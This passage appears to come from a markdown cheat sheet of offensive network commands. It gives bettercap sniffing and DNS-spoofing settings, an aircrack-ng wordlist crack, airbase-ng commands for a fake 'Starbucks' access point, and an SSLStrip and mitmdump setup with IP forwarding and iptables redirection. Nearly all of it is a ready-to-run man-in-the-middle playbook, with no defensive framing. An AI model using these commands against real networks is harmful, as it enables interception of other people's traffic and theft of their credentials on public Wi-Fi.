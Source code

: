 set net.sniff.verbose true
#### Sniff Network Traffic
net.sniff on
#### Parse SNI, Hostnames, and URLs
net.sniff module
#### DNS Spoofing
dns.spoof {on,off}; set dns.spoof.address 10.1.1.0; set dns.spoof.domains domain; set dns.spoof.all {true,false}; set dns.spoof.hosts hostsfile;

## AirDump
------
#### AirCrack-NG
aircrack-ng traffic.pcap -r /path/to/wordlist.txt
#### AirBase-NG
airbase-ng --essid Starbucks -c 1 -a AA:AA:AA:AA:AA:AA -W 1 mon0
#### AirBase-NG
airbase-ng --essid Starbucks -c 1 -a AA:AA:AA:AA:AA:AA -W 1 mon1
#### AirBase-NG
airbase-ng --essid Starbucks -c 1 -a AA:AA:AA:AA:AA:AA -W 1 mon2
#### AirBase-NG
airbase-ng -a aa:aa:aa:aa:aa:aa -c 1 -Z 4 mon0 --essid NoAP
#### Create SSL Certificate with LetsEncrypt
<a href="https://certbot.eff.org/lets-encrypt/ubuntubionic-apache">https://certbot.eff.org/lets-encrypt/ubuntubionic-apache</a>

## MitMdump
------
#### Transparent mitm proxy
mitmdump --mode transparent -s sslstrip.py

## SSLStrip
------
#### Turn on IP forwarding to allow forward of packets
echo "1" > /proc/sys/net/ipv4/ip_forward
#### Redirect all HTTP (TCP/80) traffic to the SSLStrip process listening on port 8080
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
#### Start SSLSTrip on TCP/8080
sslstrip -l 8080
